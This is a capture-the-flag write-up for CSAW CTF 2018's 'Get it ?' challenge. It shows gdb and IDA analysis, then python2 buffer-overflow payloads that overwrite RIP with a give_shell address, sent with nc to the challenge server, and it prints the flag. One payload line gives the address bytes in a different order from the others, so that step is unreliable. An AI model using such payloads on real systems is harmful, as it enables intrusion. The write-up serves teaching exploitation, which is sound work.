 ```yaml
---
layout: post
title: CSAW CTF 2018 - Get it ?
image: "/assets/img/2018/csawctf2018/getit/1.png"
categories: [general, csawctf2018]
tags: [csawctf2018, writeup]
twitter_text: "Write-up for Get it ?"
introduction: "Write-up for Get it ?"
description: "Write-up for Get it ?"
---
```



![](/assets/img/2018/csawctf2018/getit/1.png)

First let's run the program to see what the program is about. It's a 64-bit ELF !

Now let's go to gdb to analyse the file. To begin I disassemble the main function, but I found nothing interesting.

![](/assets/img/2018/csawctf2018/getit/2.png)


After this I used IDA PRO. In the table of function, I can see a function whose name is "give_shell". If I looking around we can see that we have what we want, a call system :

![](/assets/img/2018/csawctf2018/getit/3.png)


Return into gdb to find the padding to control the RIP register. After a few try I found the good padding :

```
r <<< $(python2 -c 'print "A"*40+"B"*4')
```

![](/assets/img/2018/csawctf2018/getit/4.png)

And we can see that we control rip with 0x42424242(BBBB in hex).


Now we have to find the address of the function give_shell :

![](/assets/img/2018/csawctf2018/getit/5.png)

Restart the program with the commands, so that we have the address of give_shell in RIP :

```
 r <<< $(python2 -c 'print "A"*40+"\xb6\x05\x40"')
"')
```
![](/assets/img/2018/csawctf2018/getit/6.png)

As we can see, the address is not good, because it's a 64-bit program and we have to add some \x00 :


```
r <<< $(python2 -c 'print "A"*40+"\x6b\x05\x04\x00\x00\x00"')
```
![](/assets/img/2018/csawctf2018/getit/7.png)

And there you have your /bin/bash !!! 

![](/assets/img/2018/csawctf2018/getit/8.png)

The last step is to send the command in remote to get the flag :

```
python2 -c 'print "A"*40+"\xb6\x05\x40\x00\x00\x00"' > commands.txt
cat commands.txt - | nc pwn.chal.csaw.io 9001 
 ```


![](/assets/img/2018/csawctf2018/getit/9.png)


> Flag : flag{y0u_deF_get_itls}